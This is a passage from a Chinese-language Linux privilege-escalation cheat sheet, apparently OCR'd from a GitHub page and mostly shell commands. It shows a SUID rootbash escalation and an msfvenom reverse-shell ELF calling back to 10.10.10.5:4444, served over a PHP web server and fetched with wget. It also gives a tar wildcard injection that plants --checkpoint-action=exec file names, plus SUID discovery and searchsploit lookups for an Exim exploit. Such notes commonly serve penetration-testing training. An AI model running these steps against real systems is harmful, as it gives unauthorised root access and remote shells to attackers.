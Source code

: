 		```
		chmod +xs overwrite.sh 
		```

	4. 提权

		```
		/tmp/rootbash -p
		```
	
- Tar 打包

	1.  Msfvenom 创建脚本

		```
		sudo msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.5 LPORT=4444 -f elf -o shell.elf
		```

	2.  架设临时 Web 服务器

		```
		sudo php -S 0:80 
		```

	3.  获取文件

		```
		wget http://10.10.10.5/shell.elf
		```

	4.  文件赋权

		```
		chmod +xs shell.elf
		```

	5.  利用

		```
		touch /home/user/--checkpoint=1
		```

	6.  利用

		```
		touch /home/user/--checkpoint-action=exec=shell.elf
		```

## SUID提权

- 可执行文件

```
	find / -perm -u=s -type f 2>/dev/null
	
	searchsploit exim 4.84  
	
	searchsploit exim 4.84 -m 39535 
	
	sudo php -S 0:80 
```
